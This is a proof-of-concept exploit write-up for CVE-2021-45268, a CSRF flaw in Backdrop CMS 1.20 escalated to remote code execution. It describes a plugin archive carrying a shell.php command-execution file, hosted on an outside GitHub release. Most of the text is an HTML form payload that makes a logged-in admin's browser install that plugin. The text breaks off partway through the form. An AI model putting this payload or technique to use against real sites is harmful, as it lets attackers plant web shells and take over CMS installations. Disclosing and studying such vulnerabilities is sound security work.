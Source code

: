 CSRF to RCE on Backdrop CMS 1.20
This PoC describe how to exploit CSRF on Backdrop CMS Version 1.20 with escalation to RCE.

## CVE ID
CVE-2021-45268

Description
The Backdrop CMS version 1.20 allows plugins to be added via ZIP files uploaded to the site. And because it does not have anti-CSRF protection, it is possible for an attacker to create a plugin with a file that allows execution of commands, host it and, using a forged page, make the site admin upload this plugin just by clicking on a malicious link.

Attack Scenario
We use a default plugin, available on the project page on GitHub, we insert a file called shell.php, which contains a PHP snippet that allows remote execution of commands, and we provide this plugin forged in another github (https://github.com/V1n1v131r4/CSRF-to-RCE-on-Backdrop-CMS/releases/tag/backdrop).

We create an HTML page with a payload that forces the site to install the plugin when called via the browser. In this way, when accessed by the site's admin, the shell.php file will be available for use by the attacker.

Payload
<html>
<body>
        <form method="POST" action="http://example.com/backdrop/?q=system/ajax">
                <input type="text" name="q" value="system/ajax">
                <input type="text" name="Backdrop.tableDrag.showWeight" value="0">
                <input type="text" name="SESSaca5a63f4c2fc739381fab7741d68783" value="4IVp_-QA9bzSPmMyXalKTNS3BNFTQnxJTw8t93Gi6c8">
                <input type="text" name="bulk" value="">
                <input type="text" name="project_url" value="https://github.com/V1n1v131r4/CSRF-to-RCE-on-Backdrop-CMS/releases/download/backdrop/reference.tar">
                <input type="text" name="files[project_upload]" value="">
                <input type="text" name="form_build_id" value="form-p-BrvXTDPqUhhAatHFr4d_dQKt6Dn5d-mIf4hwFyuJA">
                <input type="text" name="form_token" value="aYigpmZz3OXNHnjJTO2Tu43IXMKyrMXvB2yL-4NFbTw">
                <input type="text" name="form_id" value="installer_manager_install_form">
                <input type="text" name="_triggering_element_name" value="op">
                <input type="text" name="_triggering_element_value" value="Install">
                <input type="text" name="ajax_html_ids[]" value="skip-link">
                <input type="text" name="ajax_html_ids[]" value="main-content">
                <input type="text" name="ajax_html_ids[]" value="installer-browser-filters-form">
                <input type="text" name="ajax_html_ids[]" value="edit-search-text">
                <input type="text" name="ajax_html_ids[]" value="edit-submit">
                <input type="text" name="ajax_html_ids[]" value="title-ajax">
                <input type="text" name="ajax_html_ids[]" value="title-ajax">
                <input type="text" name="ajax_html_ids[]" value="title-link">
                <input type="text" name="ajax_html_ids[]" value="add-to-queue-link-bootstrap_lite">
                <input type="text" name="ajax_html_ids[]" value="title-ajax">
                <input type="text" name="ajax_html_ids[]" value="title-ajax">
                <input type="text" name="ajax_html_ids[]" value="title-link">
                <input type="text" name="ajax_html_ids[]" value="add-to-queue-link-corporate_kiss">
                <input type="text" name="ajax_html_ids[]" value="title-ajax">
                <input type="text" name="ajax_html_ids[]" value="title-ajax">
                <input type="text" name="ajax_html_ids[]" value="title-link">
                <input type="text" name="ajax_html_ids[]" value="add-to-queue-link-lateral">
                <input type="text" name="ajax_html_ids[]" value="title-ajax">
                <input type="text" name="ajax_html_ids[]" value="title-ajax">
                <input type="text" name="ajax_html_ids[]" value="title-link">
                <input type="text" name="ajax_html_ids[]" value="add-to-queue-link-colihaut">
                <input type="text" name="ajax_html_ids[]" value="title-ajax">
                <input type="text" name="ajax_html_ids[]" value="title-ajax">
                <input type="text" name="ajax_html_ids[]" value="title-link">
                <input type="text" name="ajax_html_ids[]" value="add-to-queue-link-shasetsu">
                <input type="text" name="ajax_html_ids[]" value="title-ajax">